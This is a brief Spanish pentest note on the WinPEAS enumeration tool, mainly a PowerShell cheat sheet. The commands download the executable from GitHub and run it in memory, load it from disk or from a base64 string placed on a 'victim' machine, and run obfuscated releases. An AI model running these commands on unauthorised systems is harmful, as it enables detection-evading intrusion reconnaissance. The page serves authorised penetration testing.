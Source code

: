 ### WinPEAS

Por excelencia una herramienta muy buena.

[winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)

Los binarios .exe estan dentro del repositorio, solo basta llamarlos desde la powershell o cmd.

Aqui otras formas de jugar con la ejecucion:

```bash
#One liner to download and execute winPEASany from memory in a PS shell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASany.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")

#Before cmd in 3 lines
$url = "https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe"
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

#Load from disk in memory and execute:
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS.exe")));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

#Load from disk in base64 and execute
##Generate winpeas in Base64:
[Convert]::ToBase64String([IO.File]::ReadAllBytes("D:\Users\user\winPEAS.exe")) | Out-File -Encoding ASCII D:\Users\user\winPEAS.txt
##Now upload the B64 string to the victim inside a file or copy it to the clipboard

 ##If you have uploaded the B64 as afile load it with:
$thecontent = Get-Content -Path D:\Users\victim\winPEAS.txt
 ##If you have copied the B64 to the clipboard do:
$thecontent = "aaaaaaaa..." #Where "aaa..." is the winpeas base64 string
##Finally, load binary in memory and execute
$wp = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($thecontent))
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

#Loading from file and executing a winpeas obfuscated version
##Load obfuscated version
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS-Obfuscated.exe")));
$wp.EntryPoint #Get the name of the ReflectedType, in obfuscated versions sometimes this is different from "winPEAS.Program"
[<ReflectedType_from_before>]::Main("") #Used the ReflectedType name to execute winpeas
```

